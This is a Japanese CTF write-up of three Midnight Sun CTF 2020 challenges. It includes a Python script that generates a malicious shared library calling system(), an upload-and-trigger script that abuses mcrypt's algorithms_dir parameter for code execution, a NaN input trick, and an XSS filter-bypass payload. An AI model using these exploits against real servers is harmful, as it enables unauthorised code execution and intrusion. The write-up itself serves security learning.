



4 月 4 日から 4 月 5 日にかけて開催された [Midnight Sun CTF 2020 Quals](https://midnightsunctf.se/) に、[KAIST GoN](https://ctftime.org/team/1288) と zer0pts の合同チームである GoN x zer0pts として参加しました。最終的にチームで 2671 点を獲得し、順位は 55 点以上得点した 527 チーム中 8 位でした。うち、私は 2 問を解いて 248 点を入れました。

以下、write-up です。

## [Web 172] hackingforso (28 solves)
> We lost our juju, so now we're only hackingforso :/
> 
> HINT: run ./flag_dispenser to get flag
> 
> Service: (URL)

ヒントによれば `./flag_dispenser` という実行ファイルを実行することでフラグが得られるようなので、どこかで任意コード実行や OS コマンドインジェクションのようなことができるのでしょう。 

与えられた URL にアクセスすると、以下のようにファイルの内容や拡張子、鍵、暗号化アルゴリズムを選択して送信できるフォームが表示されました。暗号化アルゴリズムとして用意されている `loki97` や `blowfish-compat` を検索すると mcrypt 関連のドキュメントが多くヒットし、mcrypt が使われていることが推測できます。



以下のように適当にフォームを埋めて送信してみると、



`/?file=(32 ケタの 16 進数).txt` にリダイレクトされ、`9d2c62a4b213b55a2c30b5fc68c53660` という内容が表示されました。

試しに `/?file=../index.php` でソースコードが得られないか試してみたところ、`XXX/index.php` というファイルが見つからないというエラーメッセージが表示されました。`/?file=a..b` では開こうとしているファイル名が `aXXXb` に変わっており、どうやら `..` が `XXX` に置換されているようです。

また、`/?file=/var/www/html/index.php` では `XXXvar/www/html/index.php` を開こうとしており、先頭の `/` も `XXX` に置換されていることがわかります。

HTTP レスポンスヘッダには `X-Powered-By: PHP/5.6.40` が付与されており、また GET パラメータの `file` が `fopen` のような関数に渡されていることが推測できるのでストリームラッパーの使い所とわかる…はずなのですが思い浮かばず、[aventador](https://twitter.com/kaanezder) さんによって `/?file=php://filter/convert.base64-encode/resource=/var/www/html/index.php` でソースコードが取得できることがわかりました。

```php
<html>
<?php
	ini_set("display_errors", TRUE);
	error_reporting(E_ALL);

	ini_set("allow_url_fopen", 0);
	ini_set("allow_url_include", 0);
	error_reporting(E_ALL);

	function nohack($str){
		return preg_replace("/(\.\.+|^\/|^(file|http|https|ftp):)/i", "XXX", $str);
	}

	foreach($_POST as $key => $val){
		$_POST[$key] = nohack($val);
	}
	foreach($_GET as $key => $val){
		$_GET[$key] = nohack($val);
	}
	foreach($_REQUEST as $key => $val){
		$_REQUEST[$key] = nohack($val);
	}

	if(isset($_GET['file'])){
		chdir("/var/www/messages");
		$fp = fopen($_GET['file'], 'r');
		$output = fread($fp, 4096);
		echo "Your encrypted file: <br>\n<pre>".bin2hex($output)."</pre>";
		die();
	}


	if(isset($_POST['key']) && isset($_POST['file'])){
		if(strlen($_POST['file']) > 40960){
			echo "too big file";
			die();
		}
		$iv_size = mcrypt_get_iv_size($_POST['algo'], MCRYPT_MODE_CBC) || 16;
		$key_size = mcrypt_get_key_size($_POST['algo'], MCRYPT_MODE_CBC);
		$iv = mcrypt_create_iv($iv_size, MCRYPT_DEV_URANDOM);
		$_POST['iv'] = $iv;
		$_POST['mode'] = 'cbc';
		$_POST['key'] = str_pad($_POST['key'], $key_size);
		$filename = md5($_SERVER['REMOTE_ADDR']).".".basename($_POST['filetype']);
		$fp = fopen("/var/www/messages/".$filename, 'wb');
		stream_filter_append($fp, 'mcrypt.'.$_POST['algo'], STREAM_FILTER_WRITE, $_POST);
		fwrite($fp, $_POST['file']);
		fclose($fp);
		header('Location: /?file='.$filename);
		die();
	}else{
		?>

Encrypt your file!<br/>
<form method="POST" action="/">
Filecontents: <textarea name="file"></textarea><br/>
Filetype: <input name="filetype"></input><br/>
Key: <input name="key"></input><br/>
Algorithm: <select name="algo">
		<?php 
	$algos = array_unique(mcrypt_list_algorithms());

	foreach($algos as $algo){
		echo "<option value='$algo'>$algo</option><br>\n";
	}
?>
</select>
<input type="submit" />
</form>
<?php } ?>
</html>
```

暗号化を行っている部分が怪しく見えます。が、PHP のバグトラッカーやリリースログを調べたり、mcrypt に既知の脆弱性がないか探してみても有用なものは見つかりません。

ここで [Payload](https://twitter.com/gPayl0ad) さんが、ファイルの書き込み時に指定した暗号化アルゴリズムで暗号化させるようにする以下の [`stream_filter_append`](https://www.php.net/manual/ja/function.stream-filter-append.php) の処理が特に怪しいことに気づきました。

```php
stream_filter_append($fp, 'mcrypt.'.$_POST['algo'], STREAM_FILTER_WRITE, $_POST);
```

`stream_filter_append` の第四引数は [`mcrypt.*` フィルタ](https://www.php.net/manual/ja/filters.encryption.php)に与えられるパラメータで、`['iv' => '...', 'key' => '...']` のように IV や鍵といった暗号化に必要な情報を与えるためのものです。ここでは `$_POST` を渡しているために `algorithms_dir` や `modes_dir` のようなパラメータもコントロールできてしまうということでした。

これがどういった意味を持つか、[php/pecl-encryption-mcrypt](https://github.com/php/pecl-encryption-mcrypt) を調べていきましょう。

`mcrypt.c` の中にある、モジュールがロードされたときに最初に呼び出される処理である [`static PHP_MINIT_FUNCTION(mcrypt)`](https://github.com/php/pecl-encryption-mcrypt/blob/c672464f01f9735cdbe4bab4e63b4dddda1c7929/mcrypt.c#L375) を読み進めていくと、[`php_stream_filter_register_factory("mcrypt.*", &php_mcrypt_filter_factory);`](https://github.com/php/pecl-encryption-mcrypt/blob/c672464f01f9735cdbe4bab4e63b4dddda1c7929/mcrypt.c#L429) という処理があり、ここから `mcrypt.*` というストリームフィルタの初期化処理については `php_mcrypt_filter_factory` の先を追っていけばよいことがわかります。

```c
static PHP_MINIT_FUNCTION(mcrypt) /* {{{ */
{
	le_mcrypt = zend_register_list_destructors_ex(php_mcrypt_module_dtor, NULL, "mcrypt", module_number);

	/* modes for mcrypt_??? routines */
	REGISTER_LONG_CONSTANT("MCRYPT_ENCRYPT", 0, CONST_PERSISTENT);
	REGISTER_LONG_CONSTANT("MCRYPT_DECRYPT", 1, CONST_PERSISTENT);

	/* sources for mcrypt_create_iv */
	REGISTER_LONG_CONSTANT("MCRYPT_DEV_RANDOM", RANDOM, CONST_PERSISTENT);
	REGISTER_LONG_CONSTANT("MCRYPT_DEV_URANDOM", URANDOM, CONST_PERSISTENT);
	REGISTER_LONG_CONSTANT("MCRYPT_RAND", RAND, CONST_PERSISTENT);

	/* ciphers */
	MCRYPT_ENTRY2_2_4(3DES, "tripledes");
	MCRYPT_ENTRY2_2_4(ARCFOUR_IV, "arcfour-iv");
	MCRYPT_ENTRY2_2_4(ARCFOUR, "arcfour");
	MCRYPT_ENTRY2_2_4(BLOWFISH, "blowfish");
	MCRYPT_ENTRY2_2_4(BLOWFISH_COMPAT, "blowfish-compat");

// ︙

	php_stream_filter_register_factory("mcrypt.*", &php_mcrypt_filter_factory);
	php_stream_filter_register_factory("mdecrypt.*", &php_mcrypt_filter_factory);

	return SUCCESS;
}
/* }}} */
```

`mcrypt_filter.c` の中にある [`php_mcrypt_filter_factory`](https://github.com/php/pecl-encryption-mcrypt/blob/c672464f01f9735cdbe4bab4e63b4dddda1c7929/mcrypt_filter.c#L272-L274) からは [`php_mcrypt_filter_create`](https://github.com/php/pecl-encryption-mcrypt/blob/c672464f01f9735cdbe4bab4e63b4dddda1c7929/mcrypt_filter.c#L150) という関数がストリームフィルタの初期化処理を担っていることがわかります。

```c
php_stream_filter_factory php_mcrypt_filter_factory = {
	php_mcrypt_filter_create
};
```

この関数を読み進めていくと、[`algorithms_dir` というパラメータが与えられている場合には `algo_dir` という変数にその値を代入](https://github.com/php/pecl-encryption-mcrypt/blob/c672464f01f9735cdbe4bab4e63b4dddda1c7929/mcrypt_filter.c#L185-L191)し、[そうでない場合には `php.ini` 等で設定されているデフォルト値が入っている](https://github.com/php/pecl-encryption-mcrypt/blob/c672464f01f9735cdbe4bab4e63b4dddda1c7929/mcrypt_filter.c#L157)ことがわかります。この後 [`algo_dir` は暗号化アルゴリズムなどとともに引数として `mcrypt_module_open` という mcrypt 側の関数に与えられ](https://github.com/php/pecl-encryption-mcrypt/blob/c672464f01f9735cdbe4bab4e63b4dddda1c7929/mcrypt_filter.c#L210)て、その暗号化アルゴリズムとモードのモジュールを開いているようです。

```c
static php_stream_filter *php_mcrypt_filter_create(const char *filtername, zval *filterparams, uint8_t persistent)
{
	int encrypt = 1, iv_len, key_len, keyl, result;
	const char *cipher = filtername + sizeof("mcrypt.") - 1;
	zval *tmpzval;
	MCRYPT mcrypt_module;
	char *iv = NULL, *key = NULL;
	char *algo_dir = INI_STR("mcrypt.algorithms_dir");
	char *mode_dir = INI_STR("mcrypt.modes_dir");
	char *mode = "cbc";
	php_mcrypt_filter_data *data;

// ︙

	if ((tmpzval=zend_hash_str_find(Z_ARRVAL_P(filterparams), ZEND_STRL("algorithms_dir")))) {
		if (Z_TYPE_P(tmpzval) == IS_STRING) {
			algo_dir = Z_STRVAL_P(tmpzval);
		} else {
			php_error_docref(NULL, E_WARNING, "algorithms_dir is not a string, ignoring");
		}
	}

// ︙

	mcrypt_module = mcrypt_module_open((char *)cipher, algo_dir, mode, mode_dir);
	if (mcrypt_module == MCRYPT_FAILED) {
		php_error_docref(NULL, E_WARNING, "Could not open encryption module");
		return NULL;
	}

// ︙

	return php_stream_filter_alloc(&php_mcrypt_filter_ops, data, persistent);
}
/* }}} */
```

`mcrypt_module_open` は何をしているのでしょうか。[libmcrypt のソースコード](http://mcrypt.cvs.sourceforge.net/)を探してみると、`lib/mcrypt_modules.c` に以下のような処理が見つかりました。

`mcrypt_dlopen` という関数で、指定したディレクトリにある、指定した暗号化アルゴリズムの名前の共有ライブラリを開いているようです。その後、開いた共有ライブラリの `_mcrypt_encrypt` や `_mcrypt_decrypt` といったシンボルのアドレスを取得しています。あとでこれらを呼び出すためでしょう。

```c
WIN32DLL_DEFINE
MCRYPT mcrypt_module_open(const char *algorithm,
			  const char *a_directory, const char *mode, 
			  const char *m_directory)
{
	MCRYPT td;
	const char* err;
	void *ret;
	
	td = calloc(1, sizeof(CRYPT_STREAM));
	if (td==NULL) return MCRYPT_FAILED;

	if (lt_dlinit() != 0) {
		return MCRYPT_FAILED;
	}

	ret = mcrypt_dlopen( &td->algorithm_handle, a_directory, m_directory, algorithm);
	if (ret == NULL) {
		err=lt_dlerror();
		if (err!=NULL) {
			fputs( err, stderr);
			fputs("\n", stderr);
		}
		free(td);
		lt_dlexit();
		return MCRYPT_FAILED;
	}

// ︙

	td->a_encrypt = mcrypt_dlsym(td->algorithm_handle, "_mcrypt_encrypt");
	td->a_decrypt = mcrypt_dlsym(td->algorithm_handle, "_mcrypt_decrypt");
	td->m_encrypt = mcrypt_dlsym(td->mode_handle, "_mcrypt");
	td->m_decrypt = mcrypt_dlsym(td->mode_handle, "_mdecrypt");
	td->a_block_size =
	    mcrypt_dlsym(td->algorithm_handle, "_mcrypt_get_block_size");

	if (td->a_encrypt == NULL || td->a_decrypt == NULL|| td->m_encrypt == NULL||
		td->m_decrypt == NULL|| td->a_block_size == NULL) {
		err=lt_dlerror();
		if (err!=NULL) {
			fputs( err, stderr);
			fputs( "\n", stderr);
		}
		mcrypt_dlclose(td->algorithm_handle);
		free(td);
		lt_dlexit();
		return MCRYPT_FAILED;
	}

// ︙

	return td;
}
```

`mcrypt_dlopen` はどのようにしてファイルを探しているのでしょうか。同じく `lib/mcrypt_modules.c` に以下のような処理が見つかりました。

`a_directory` と `m_directory`  と `LIBDIR` をコロンで結合してからこれを引数として [`lt_dlsetsearchpath`](https://www.gnu.org/software/libtool/manual/html_node/Libltdl-interface.html#index-lt_005fdlsetsearchpath) という Libtool の関数を呼び出すことで、この後のライブラリの検索時に指定したディレクトリからも探すように設定しているようです。検索対象のディレクトリをコロンで結合することで、複数のディレクトリが検索対象になるようです。

そして [`lt_dlopenext`](https://www.gnu.org/software/libtool/manual/html_node/Libltdl-interface.html#index-lt_005fdlopenext) という Libtool の関数で指定した暗号化アルゴリズムの共有ライブラリを開いています。どうやら `lt_dlopenext` は与えられた文字列そのままのファイル名が見つからない場合、`.la` や `.so` といった拡張子を付け加えたファイル名がないか試してくれる便利な関数のようです。

```c
WIN32DLL_DEFINE
void* mcrypt_dlopen ( mcrypt_dlhandle* handle, const char* a_directory, const char *m_directory, const char *filename) {
	
	char paths[1539];

// ︙

	*paths = '\0';
	if (a_directory != NULL) {
		strncat( paths, a_directory, 512);
		strcat( paths, ":");
	}
	if (m_directory != NULL) {
		strncat( paths, m_directory, 512);
		strcat( paths, ":");
	}
	strncat( paths, LIBDIR, 512);

	lt_dlsetsearchpath(paths);

	handle->handle = lt_dlopenext(filename);

	return handle->handle;

}
```

長くなりましたが、これで以下のような形で `stream_filter_append` を呼び出した場合には、`/tmp/hoge` 下に `neko.so` という共有ライブラリがあれば開いて `_mcrypt_encrypt` のような関数を (たぶん) 呼び出すことがわかりました。

```php
stream_filter_append($fp, 'mcrypt.neko', STREAM_FILTER_WRITE, [
  'key': '...',
  'iv': '...',
  'algorithms_dir': '/tmp/hoge'
]);
```

これを使えば、`_mcrypt_encrypt` 中で `system("./flag_dispenser > /var/www/messages/poyo.txt")` のように `system` 関数を呼び出すことで `./flag_dispenser` を実行した結果を適当な場所へ書き出させることができそうです。

まずはわるい共有ライブラリを作りましょう。ソースコードを生成してくれる Python スクリプトを書きます。

```python
CMD = "./flag_dispenser > /var/www/messages/poyopoyo.txt"

functions = '''void _mcrypt_set_key(int *a, int *b, int c)
void _mcrypt_encrypt(int *a, int *b)
void _mcrypt_decrypt(int *a, int *b)
void _mcrypt_get_size()
void _mcrypt_get_block_size()
void _is_block_algorithm()
void _mcrypt_get_key_size()
void _mcrypt_get_algo_iv_size()
void _mcrypt_get_supported_key_sizes(int *a)
void _mcrypt_get_algorithms_name()
void _mcrypt_self_test()
void _mcrypt_algorithm_version()'''.splitlines()
source = '''
// gcc -shared -fPIC evil.c -o evil.so
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
'''

for function in functions:
  source += f'''
{function} {{
  const char *cmd = "{CMD}";
  system(cmd);
}}
  '''

with open('evil.c', 'w') as f:
  f.write(source)
```

これを実行してから `gcc -shared -fPIC evil.c -o evil.so` でコンパイルし、拡張子は `so`、暗号化アルゴリズムはでたらめなものにして (これによって `stream_filter_append` が失敗するので、ファイルが暗号化されずにそのまま書き込まれる) アップロードします。

あとは暗号化アルゴリズムに `md5($_SERVER['REMOTE_ADDR'])` を、`algorithms_dir` に `/var/www/messages` を与えてから適当な文字列を暗号化するだけ…かと思いきや、ここでちょっとした罠があります。`index.php` の最初の方で `$_POST` が `nohack` という関数によってフィルターされており、これによって文字列の先頭にある `/` が `XXX` に置換されてしまうのをなんとかする必要があります。

先程 libmcrypt のソースコードを読んだ際に共有ライブラリの検索には `lt_dlsetsearchpath` と `lt_dlopenext` が使われており、これらはコロンで区切ることで複数のディレクトリを検索対象にすることもわかっていました。ですから、`algorithms_dir` には `:/var/www/messages` を与えれば `nohack` の置換を回避した上で `/var/www/messages` を与えたときと同じ結果が得られるはずです。

自動化するスクリプトを書きましょう。

```python
import requests

req = requests.post('http://(省略)/', data={
  'file': open('evil.so', 'rb').read(),
  'filetype': 'so',
  'key': 'a',
  'algo': 'hoge' # data will not be encrypted
})
print(req.content)
print(req.headers)

req = requests.post('http://(省略)/', data={
  'file': 'test',
  'filetype': 'txt',
  'key': 'a',
  'algo': '(MD5 hash of your IP address)',
  'algorithms_dir': ':/var/www/messages'
})
print(req.content)
print(req.headers)

req = requests.get('http://(省略)/?file=poyopoyo.txt')
print(req.content)
print(req.headers)
```

```
$ python3 solve.py
b'<html>\nYour encrypted file: <br>\n<pre>7f454c46…00000000</pre>'
{'Server': 'nginx/1.17.9', 'Date': 'Sat, 04 Apr 2020 21:26:41 GMT', 'Content-Type': 'text/html; charset=UTF-8', 'Transfer-Encoding': 'chunked', 'Connection': 'keep-alive', 'X-Powered-By': 'PHP/5.6.40'}
b'<html>\nYour encrypted file: <br>\n<pre>74657374</pre>'
{'Server': 'nginx/1.17.9', 'Date': 'Sat, 04 Apr 2020 21:26:42 GMT', 'Content-Type': 'text/html; charset=UTF-8', 'Transfer-Encoding': 'chunked', 'Connection': 'keep-alive', 'X-Powered-By': 'PHP/5.6.40'}
b'<html>\nYour encrypted file: <br>\n<pre>466c61673a206d69646e696768747b695f684074335f6372795074305f316e5f7733625f6368346c6c7a7d0a</pre>'
{'Server': 'nginx/1.17.9', 'Date': 'Sat, 04 Apr 2020 21:26:43 GMT', 'Content-Type': 'text/html; charset=UTF-8', 'Transfer-Encoding': 'chunked', 'Connection': 'keep-alive', 'X-Powered-By': 'PHP/5.6.40'}
```

フラグが得られました。

```
midnight{i_h@t3_cryPt0_1n_w3b_ch4llz}
```

## [Misc 76] indian guessing (123 solves)
> Let's play an Indian guessing game!
> 
> Service: nc (問題サーバへの接続情報)

与えられた情報を使って問題サーバに接続してみましょう。

```
$ nc (省略)
Let's play an Indian guessing game!
> 1
1 I guess 500000.0      Too big!
2 I guess 250000.0      Too big!
3 I guess 125000.0      Too big!
4 I guess 62500.0       Too big!
5 I guess 31250.0       Too big!
6 I guess 15625.0       Too big!
7 I guess 7812.5        Too big!
8 I guess 3906.25       Too big!
9 I guess 1953.125      Too big!
10 I guess 976.5625     Too big!
11 I guess 488.28125    Too big!
12 I guess 244.140625   Too big!
13 I guess 122.0703125  Too big!
14 I guess 61.03515625  Too big!
15 I guess 30.517578125 Too big!
16 I guess 15.2587890625        Too big!
17 I guess 7.62939453125        Too big!
18 I guess 3.814697265625       Too big!
19 I guess 1.9073486328125      Too big!
20 I guess 0.95367431640625     Too small!
21 I guess 1.430511474609375    Too big!
22 I guess 1.1920928955078125   Too big!
23 I guess 1.0728836059570312   Too big!
24 I guess 1.0132789611816406   Too big!
25 I guess 0.9834766387939453   Too small!
26 I guess 0.998377799987793    Too small!
27 I guess 1.0058283805847168   Too big!
28 I guess 1.0021030902862549   Too big!
29 I guess 1.000240445137024    Close enough! ;) I got you this time!
Let's play an Indian guessing game!
> 7812.5
1 I guess 500000.0      Too big!
2 I guess 250000.0      Too big!
3 I guess 125000.0      Too big!
4 I guess 62500.0       Too big!
5 I guess 31250.0       Too big!
6 I guess 15625.0       Too big!
7 I guess 7812.5        Close enough! ;) I got you this time!
```

適当な数値を入力すると 0 から 1000000 の範囲で二分探索をし始め、ある程度入力した数値に近づくとそこで処理が打ち切られてしまうようです。無限ループに持ち込ませたりして当てさせないようにできないでしょうか。

上記のように (最終的には当てられてしまうものの) 小数も入力することができ、浮動小数点数が使われていることが推測できます。また、`a` のような数値として正しくないものを入力すると `could not convert string to float: 'a'` というエラーメッセージが表示され、このメッセージから Python の `float` 関数にユーザ入力が渡されていることが推測できます。

IEEE 754 では普通の数値の他にも無限大や NaN を表現できます。ということで `+infinity` を入力してみましたが `Too big!` と表示されて二分探索が始まらず、`-infinity` を入力しても同様に `Too small!` と怒られてしまいます。`nan` ならどうでしょう。`float('nan') > 1000000` と `float('nan') < 0` のいずれも `False` なので入力値のチェックをすり抜けることができるはずです。

```
Let's play an Indian guessing game!
> nan
1 I guess 500000.0      Too small!
2 I guess 750000.0      Too small!
3 I guess 875000.0      Too small!
4 I guess 937500.0      Too small!
5 I guess 968750.0      Too small!
6 I guess 984375.0      Too small!
7 I guess 992187.5      Too small!
8 I guess 996093.75     Too small!
9 I guess 998046.875    Too small!
10 I guess 999023.4375  Too small!
11 I guess 999511.71875 Too small!
12 I guess 999755.859375        Too small!
13 I guess 999877.9296875       Too small!
14 I guess 999938.96484375      Too small!
15 I guess 999969.482421875     Too small!
16 I guess 999984.7412109375    Too small!
17 I guess 999992.3706054688    Too small!
18 I guess 999996.1853027344    Too small!
19 I guess 999998.0926513672    Too small!
20 I guess 999999.0463256836    Too small!
21 I guess 999999.5231628418    Too small!
22 I guess 999999.7615814209    Too small!
23 I guess 999999.8807907104    Too small!
24 I guess 999999.9403953552    Too small!
25 I guess 999999.9701976776    Too small!
26 I guess 999999.9850988388    Too small!
27 I guess 999999.9925494194    Too small!
28 I guess 999999.9962747097    Too small!
29 I guess 999999.9981373549    Too small!
30 I guess 999999.9990686774    Too small!
You have beaten me. Here you go: midnight{rice_and_cu^H^Hsoju}
```

フラグが得られました。

```
midnight{rice_and_cu^H^Hsoju}
```

---

以下の問題は私が解いたものではありませんが、面白かったので後学のために write-up を書きます。

## [Web 235] crossintheroof (17 solves)
> Alert the cyber police, someone wrote insecure code!
> 
> Service: (URL)

与えられた URL にアクセスすると、次のような PHP スクリプトが動いている Web ページで `alert(1)` を実行させるとフラグが得られるというメッセージが表示されました。

```php
<?php
 header('X-XSS-Protection: 0');
 header('X-Frame-Options: deny');
 header('X-Content-Type-Options: nosniff');
 header('Content-Type: text/html; charset=UTF-8');

if(!isset($_GET['xss'])){
    if(isset($_GET['error'])){
        die('stop haking me!!!');
    }

    if(isset($_GET['source'])){
        highlight_file('index.php');
        die();
    }

    die('unluky');
}

 $xss = $_GET['xss']?$_GET['xss']:"";
 $xss = preg_replace("|[}/{]|", "", $xss);

?>
<script>
setTimeout(function(){
    try{
        return location = '/?i_said_no_xss_4_u_:)';
        nodice=<?php echo $xss; ?>;
    }catch(err){
        return location = '/?error='+<?php echo $xss; ?>;
    }
    },500);
</script>
<script>
/* 
    payload: <?php echo $xss ?>

*/
</script>
<body onload='location="/?no_xss_4_u_:)"'>hi. bye.</body>
```

`xss` という GET パラメータが与えられた場合、`{` `}` `/` の 3 種類の文字を削除した上で `try-catch` 中の 2 箇所と JavaScript のコメントの中の 1 箇所にそのまま出力されるようです。

これは楽勝…かと思いきや、`try-catch` は `setTimeout` で 500 ミリ秒後に実行されることになっており、これが実行される前に `body` 要素の `onload` 属性として設定されている `location="/?no_xss_4_u_:)"` によって別ページにリダイレクトされてしまいます。コメント中の注入箇所なら大丈夫かと思いきや、`/` が削除されてしまうためにコメントを閉じさせることができません。これは見た目よりも難しそうです。

まず `body` 要素の `onload` 属性をなんとかする必要があります。競技中は aventador さんが `<!--<script` を注入することで、以下のようにブラウザに `<body onload='location="/?no_xss_4_u_:)"'>hi. bye.</body>` を JavaScript コードの一部として[解釈させることができる](https://html.spec.whatwg.org/multipage/scripting.html#restrictions-for-contents-of-script-elements)とわかりました。



これで `body` 要素の `onload` 属性についてはなんとかなりましたが、まだ問題は残っています。というのも、`try` 文中の注入箇所は `return` 文の直後であるため、デッドコードになってしまっています。わざと `SyntaxError` を発生させて `catch` 文中の注入箇所で本命の処理を実行させることを考えましたが、`SyntaxError` をキャッチできるのは `eval('"')` のように実行時に発生したものだけですから、この場合には当てはまりません。また、次のようにバックティックを使って次の注入箇所までを文字列として解釈させることも考えましたが、[`catch` 節はその後に続くブロックのためにブレースを使う必要があり](http://www.ecma-international.org/ecma-262/10.0/#prod-Catch)、先述のフィルターでブレースが使えないので今回は使えません。

```javascript
setTimeout(function(){
    try{
        return location = '/?i_said_no_xss_4_u_:)';
        nodice=`123;
    }catch(err){
        return location = '/?error='+`123;
    }
    },500);
```

ではどうするかというと、競技中はこれまた aventador さんによって `alert(1); let location;` を `<!--<script` の前に置くことで回避できることがわかりました。

Google Chrome で DevTools の Console タブを開いてみると [`ReferenceError: Cannot access 'location' before initialization`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Errors/Cant_access_lexical_declaration_before_init) というエラーが発生していることが確認でき、これによって `try` 文中の `location` に初期化前にアクセスしたために `ReferenceError` が発生し、これをキャッチしたために `catch` 節中の `alert(1)` が発火したことがわかります。

`http://(省略)/?xss=alert(1);%20let%20location;%20%3C!--%3Cscript` を提出するとフラグが表示されます。

```
midnight{#getrediREKT}
```